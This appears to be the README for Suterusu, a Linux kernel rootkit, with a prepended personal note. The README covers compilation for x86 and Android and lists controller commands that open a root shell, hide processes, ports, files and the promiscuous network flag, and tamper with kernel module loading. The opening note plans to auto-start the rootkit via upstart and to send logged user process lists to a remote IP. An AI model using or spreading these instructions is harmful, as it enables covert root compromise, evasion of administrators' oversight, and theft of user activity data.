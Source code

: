 Dimas Note :

1. use ps -u "dimas" > "log.txt"
2. use date > "date.txt"
3. use cat log.txt date.txt > "log.txt"
4. use upstart to automatically run suterusu (TODO : edit suterusu command)
5. TODO : shell script to automate send log to destination IP

============


Suterusu
========

Typical compilation steps:

    $ wget http://kernel.org/linux-x.x.x.tar.gz
    $ tar xvf linux-x.x.x.tar.gz
    $ cd linux-x.x.x
    $ make menuconfig
    $ make modules_prepare
    $ cd /path/to/suterusu
    $ make linux-x86 KDIR=/path/to/kernel


To compile against the currently running kernel (kernel headers installed):

    $ make linux-x86 KDIR=/lib/modules/$(uname -r)/build


If a specific toolchain is desired for cross-compilation, provide the
CROSS_COMPILE variable during make:

    $ make android-arm CROSS_COMPILE=arm-linux-androideabi- KDIR=/path/to/kernel


To compile the command binary:

    $ gcc sock.c -o sock


Commands
========

Root shell

    $ ./sock 0

Hide PID

    $ ./sock 1 [pid]

Unhide PID

    $ ./sock 2 [pid]

Hide TCPv4 port

    $ ./sock 3 [port]

Unhide TCPv4 port

    $ ./sock 4 [port]

Hide TCPv6 port

    $ ./sock 5 [port]

Unhide TCPv6 port

    $ ./sock 6 [port]

Hide UDPv4 port

    $ ./sock 7 [port]

Unhide UDPv4 port

    $ ./sock 8 [port]

Hide UDPv6 port

    $ ./sock 9 [port]

Unhide UDPv6 port

    $ ./sock 10 [port]

Hide file/directory

    $ ./sock 11 [name]

Unhide file/directory

    $ ./sock 12 [name]

Hide network PROMISC flag

    $ ./sock 13

Unhide network PROMISC flag

    $ ./sock 14

Enable module loading (force kernel.modules_disabled=0)

    $ ./sock 15

Silently prohibit module loading (neutralize future loaded modules)

    $ ./sock 16

Silently re-permit module loading (undo command 16)

    $ ./sock 17


File/directory hiding
---------------------

At the moment, file/dir hiding only hides names on the / filesystem.  Note that names are hidden, not paths.  For instance, giving the name ".blah" to Suterusu will hide the name ".blah" in all directories on the filesystem.
